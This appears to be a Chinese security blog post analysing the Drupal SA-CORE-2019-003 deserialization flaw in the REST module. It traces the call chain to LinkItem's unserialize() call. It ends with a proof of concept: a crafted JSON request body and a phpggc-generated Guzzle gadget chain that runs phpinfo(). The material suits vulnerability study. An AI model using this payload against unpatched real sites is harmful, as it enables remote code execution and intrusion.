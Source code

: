 ```yaml
---
title: SA-CORE-2019-003 Drupal 内核远程代码执行漏洞分析
date: 2019-02-22 22:19:04
tags: [vul,sec,Drupal]
categories: Security
---
```


<script src="https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/pangu.js"></script>

### 0x01 概述

https://www.drupal.org/sa-core-2019-003

### 0x02 影响版本

- Drupal 8.6.x < 8.6.10
- Drupal 8.5.x < 8.5.11

影响条件

- 站点启用了`Drupal 8`核心`RESTful` Web服务`(rest)`模块，并允许`PATCH`或`POST`请求
- 站点启用了另一个`Web`服务模块，如`Drupal 8`中的`JSON:API`，或`Drupal 7`中的`Services`或`RESTful Web Services`

### 0x03 Web Services

Drupal框架的`RESTful` Web服务是为了更方便地访问Drupal站点的资源，支持常规的api请求，如GET / POST / PATCH / DELETE（出于一些原因不支持PUT ）

更详细的介绍可以参考 https://www.drupal.org/docs/8/core/modules/rest/overview

这个漏洞影响REST Web Services，所以首先在Drupal 8中开启rest服务

1. 下载[REST UI](https://www.drupal.org/project/restui)并解压至`core/modules/`目录
2. 在`admin-config-extend`勾选Web services中的`RESTful Web Services`和`REST UI`并安装，drupal会自动安装`Serialization` ，最好也安装`HAL`扩展，后续会使用`hal_json`数据格式

> HAL(Hypertext Application Language)是一个简单的API数据格式.它以xml和json为基础，让API变的可读性更高，并且具有discoverable的特性.当我们拿到HAL API返回的数据时，我们将会很容易根据当前数据查找与其相关的数据。在Micro Service API设计中，倾向于采用HAL这种类型的数据交换格式.
>
> HAL的出现，主要弥补plain json在API交互中的不足.让plain json更具有描述性，更具有导航性. 

3. 开启权限。在`admin-config-services-rest`开启匿名用户注册权限

   ![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222161612.png)

### 0x04 漏洞分析

根据补丁位置判断漏洞点在`unserialize`部分，因此这是一个反序列化漏洞。补丁主要修复了`core/modules/link/src/Plugin/Field/FieldType/LinkItem.php`和`core/lib/Drupal/Core/Field/Plugin/Field/FieldType/MapItem.php`两个文件，这两处应该都是能触发的，这里选择`LinkItem`进行分析

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222160822.png)

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222160859.png)

看一下`setValue()`方法

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222161825.png)

可以看到简单判断了`$values['options']`后直接进行了反序列化，没有进行数据合法性校验，如果能够控制`$values['options']`就能直接触发漏洞

接下来梳理一下数据传递过程，以及如何进入到`setValue()`方法

通过rest接口注册用户时，发送的数据包类似这个样子

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222164151.png)

(图片来源：https://areatype.com/blog/register-user-drupal-8-rest-api)

在进入`drupal`后，由`RequestHandler->handle()`方法处理请求，进入`deserialize()`方法，然后调用`$this->serializer->denormalize()`反序列化出相应的类，此时的`$unserialized`为`Serializer`类

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222171019.png)

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222171158.png)

随后调用`Serializer->denormalize()`方法，在该方法中首先通过`getDenormalizer()`获得一个匹配的`denormalizer`，才能进行后续的`denormalize()`操作，匹配的过程则是和当前类的`supportedInterfaceOrClass`变量比较，返回最终可以进行`denormalize()`操作的类

```php
if ($normalizer = $this->getDenormalizer($data, $type, $format, $context)) {
    return $normalizer->denormalize($data, $type, $format, $context);
}
```

此处跟入比较深，可以略过，总之返回匹配的类是`ContentEntityNormalizer`，跟进它的`denormalize()`方法

```php
$typed_data_ids = $this->getTypedDataIds($data['_links']['type'], $context);
$entity_type = $this->getEntityTypeDefinition($typed_data_ids['entity_type']);
```

这个方法中根据 `_links.type` 的值取出`typed data IDs`，`_links.type` 值即是`post json`部分的
`"type": {
      "href": "http://127.0.0.1/drupal-8.6.5/rest/type/user/user"
}`
      值，这个值决定了后面获取到的`Entity`实体，通过`getTypeInternalIds()`方法取出所有预定义的类型并返回相应的`URI`，然后才获取对应的实体类型定义

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222173004.png)

接着会调用这个实体的`denormalizeFieldData()`方法，在`denormalizeFieldData()`中调用相应的`denormalize()`方法，最终调用到这个`field_item`的`setValue()`。因此为了触发到存在漏洞的`setValue()`，我们需要让`field_item`为`LinkItem`类或者`MapItem`类，这个赋值过程在获取到相应实体后的`getStorage()->create()`过程：

```php
$entity = $this->entityManager->getStorage($typed_data_ids['entity_type'])->create($values);
```

调用流程`create()->doCreate()->initFieldValues()`，此时的调用栈是这样的：

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190223102241.png)



现在的问题就是找到相应的`Entity`，在其中实体化了`LinkItem`类或`MapItem`类，通过查找，在`core/modules`中这样的类有两个，`Shortcut`和`MenuLinkContent`，这里选择`MenuLinkContent`来触发，此时的`_links.type`为`http://127.0.0.1/drupal-8.6.5/rest/type/menu_link_content/menu_link_conten`

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190223103404.png)

因此最后的数据包类似这个样子，注意`link`必须为数组

```
{
  "link": [
    {
      "options": payload
    }
  ],
  "_links": {
    "type": {
      "href": "http://127.0.0.1/drupal-8.6.5/rest/type/menu_link_content/menu_link_content"
    }
  }
}
```

发送数据包成功触发到`setValue()`

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190223103837.png)

接下来就是寻找内置的风险类了，进入`setValue()`后通过`unserialize()`执行代码。

### 0x05 PoC

在之前介绍`phpggc`工具的时候总结了`Drupal`中存在风险的三个类，分别可以导致远程代码执行、任意文件写入和任意文件删除，这三个类分别是

- `FnStream`
- `FileCookieJar`
- `WindowsPipes`

具体参考：[由phpggc理解php反序列化漏洞](https://kylingit.com/blog/由phpggc理解php反序列化漏洞/)

同样地，借助`phpggc`直接生成序列化数据：

```bash
root@localhost:/opt/phpggc# ./phpggc guzzle/rce1 assert 'phpinfo()' -j
"O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\u0000GuzzleHttp\\Psr7\\FnStream\u0000methods\";a:1:{s:5:\"close\";a:2:{i:0;O:23:\"GuzzleHttp\\HandlerStack\":3:{s:32:\"\u0000GuzzleHttp\\HandlerStack\u0000handler\";s:9:\"phpinfo()\";s:30:\"\u0000GuzzleHttp\\HandlerStack\u0000stack\";a:1:{i:0;a:1:{i:0;s:6:\"assert\";}}s:31:\"\u0000GuzzleHttp\\HandlerStack\u0000cached\";b:0;}i:1;s:7:\"resolve\";}}s:9:\"_fn_close\";a:2:{i:0;r:4;i:1;s:7:\"resolve\";}}"
```

发送payload

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190223111019.png)

### 0x06 总结

这个漏洞触发点并不复杂，但是调用链相当深，利用条件则是开启了`REST Web services`，并且允许用户通过`rest api`注册，在一些功能比较齐全的站点或者方便插件调用时可能会开启，影响面减小了不少，但并不影响这依然是个非常巧妙的漏洞，也进一步说明了开发时考虑不周全的话，风险点就在那里，被利用只是时间问题。





<script>pangu.spacingPage();</script>